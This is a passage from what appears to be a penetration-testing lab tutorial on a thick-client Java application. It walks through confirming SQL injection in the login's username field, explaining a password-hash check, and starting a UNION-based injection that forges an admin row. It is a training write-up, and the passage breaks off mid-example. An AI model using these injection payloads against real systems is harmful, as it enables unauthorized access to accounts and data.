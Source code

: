       this.logger.logError("[-] Exception was: '" + e.getMessage() + "'");
&lt;SNIP&gt;
</code></pre>
<p>Login into the application using the username <code>qtc'</code> to validate the SQL injection vulnerability reveals a syntax error. To see the error, we need to edit the code in the <code>fatty-client-new.jar.src/htb/fatty/client/gui/ClientGuiTest.java</code> file as follows.</p>
<pre><code class="language-java">ClientGuiTest.this.currentFolder = "../logs";
  try {
    response = ClientGuiTest.this.invoker.showFiles("../logs");
</code></pre>
<p>Listing the content of the <code>error-log.txt</code> file reveals the following message.</p>
<p><img alt="error" src="https://academy.hackthebox.com/storage/modules/113/thick_clients_web/error.png"/></p>
<p>This confirms that the username field is vulnerable to SQL Injection. However, login attempts using payloads such as <code>' or '1'='1</code> in both fields fail. Assuming that the username in the login form is <code>' or '1'='1</code>, the server will process the username as below.</p>
<pre><code class="language-sql">SELECT id,username,email,password,role FROM users WHERE username='' or '1'='1'
</code></pre>
<p>The above query succeeds and returns the first record in the database. The server then creates a new user object with the obtained results.</p>
<pre><code class="language-java">&lt;SNIP&gt;
if (rs.next()) {
        int id = rs.getInt("id");
        String username = rs.getString("username");
        String email = rs.getString("email");
        String password = rs.getString("password");
        String role = rs.getString("role");
        newUser = new User(id, username, password, email, Role.getRoleByName(role), false);
&lt;SNIP&gt;
</code></pre>
<p>It then compares the newly created user password with the user-supplied password.</p>
<pre><code class="language-java">&lt;SNIP&gt;
if (newUser.getPassword().equalsIgnoreCase(user.getPassword()))
    return newUser;
throw new LoginException("Wrong Password!");
&lt;SNIP&gt;
</code></pre>
<p>Then, the following value is produced by <code>newUser.getPassword()</code> function.</p>
<pre><code class="language-java">sha256("qtc"+"clarabibi"+"clarabibimakeseverythingsecure") = 5a67ea356b858a2318017f948ba505fd867ae151d6623ec32be86e9c688bf046
</code></pre>
<p>The user-supplied password hash <code>user.getPassword()</code> is calculated as follows.</p>
<pre><code class="language-java">sha256("' or '1'='1" + "' or '1'='1" + "clarabibimakeseverythingsecure") = cc421e01342afabdd4857e7a1db61d43010951c7d5269e075a029f5d192ee1c8
</code></pre>
<p>Although the hash sent to the server by the client doesn't match the one in the database, and the password comparison fails, the SQL injection is still possible using <code>UNION</code> queries. Let's consider the following example.</p>
<pre><code class="language-sql">MariaDB [userdb]&gt; select * from users where username='john';
+----------+-------------+
| username | password    |
+----------+-------------+
| john     | password123 |
+----------+-------------+
</code></pre>
<p>It is possible to create fake entries using the <code>SELECT</code> operator. Let's input an invalid username to create a new user entry.</p>
<pre><code class="language-sql">MariaDB [userdb]&gt; select * from users where username='test' union select 'admin', 'welcome123';
+----------+-------------+
| username | password    |